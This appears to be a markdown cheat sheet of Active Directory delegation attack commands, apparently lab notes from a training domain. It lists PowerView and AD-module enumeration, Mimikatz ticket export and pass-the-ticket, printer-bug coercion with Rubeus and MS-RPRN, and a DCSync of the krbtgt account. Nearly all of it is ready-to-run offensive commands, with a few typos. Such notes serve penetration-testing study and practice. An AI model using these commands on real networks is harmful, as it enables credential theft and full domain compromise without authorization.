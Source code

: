 ### Unconstrainged Delegation

#### Discover Computers with Unconstrained Delegation Enabled - Powerview
```powershell
Get-DomainCmputer -UnConstrained
```
##### ActiveDirectoryModule
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```
```powershell
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
#### Get the tickets
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

#### Reuse a ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

#### Force Authentication - Printer Bug

https://github.com/p0dalirius/Coercer

https://github.com/leechristensen/SpoolSample

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```
```powershell
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

##### Pass the ticket & DCSync
```powershell
Rubeus.exe ptt /ticket:<base64 ticket>
```
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp/krbtgt"'
```
### Constrained Delegation
#### Enumerate users and computers with constrainged delegation enabled
```powershell
Get-DomainUser -TrustedToAuth
```
```powershell
Get-DomainComputer -TrustedToAuth
```
##### Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
